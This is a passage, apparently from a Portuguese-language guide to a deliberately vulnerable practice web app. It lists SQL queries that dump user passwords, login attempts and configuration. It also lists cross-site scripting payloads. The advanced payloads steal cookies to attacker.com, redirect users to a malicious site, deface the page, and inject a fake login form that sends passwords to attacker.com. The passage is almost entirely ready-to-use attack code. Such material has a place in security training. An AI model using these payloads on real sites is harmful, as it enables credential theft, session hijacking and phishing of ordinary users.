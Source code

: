 ```sql
-- Ver todos os usuários e senhas
SELECT username, password, email FROM users;

-- Ver configurações sensíveis
SELECT * FROM config;

-- Ver tentativas de login (incluindo senhas)
SELECT username, password_attempted, ip_address FROM login_logs;

-- Informações do sistema
SELECT USER(), VERSION(), DATABASE(), @@datadir;

-- Listar todas as tabelas
SHOW TABLES;

-- Estrutura de uma tabela
DESCRIBE users;

-- Contar registros
SELECT 'users' as tabela, COUNT(*) as total FROM users
UNION ALL
SELECT 'comments', COUNT(*) FROM comments
UNION ALL  
SELECT 'config', COUNT(*) FROM config;
```

---

## 🚨 Cross-Site Scripting (XSS)

### 1. XSS Refletido nos Comentários

#### Payloads Básicos:
```html
<script>alert('XSS Básico')</script>
<img src="x" onerror="alert('XSS via IMG')">
<svg onload="alert('XSS via SVG')">
```

#### Payloads Avançados:
```html
<!-- Roubar cookies -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- Redirecionar para site malicioso -->
<script>window.location.href='http://malicious-site.com'</script>

<!-- Modificar o conteúdo da página -->
<script>document.body.innerHTML='<h1>Site Hackeado!</h1>'</script>

<!-- Criar formulário falso para phishing -->
<script>
document.body.innerHTML = `
<h2>Login Expirado - Entre novamente:</h2>
<form action="http://attacker.com/steal.php" method="post">
Username: <input name="user"><br>
Password: <input name="pass" type="password"><br>
<input type="submit" value="Login">
</form>`;
</script>
```
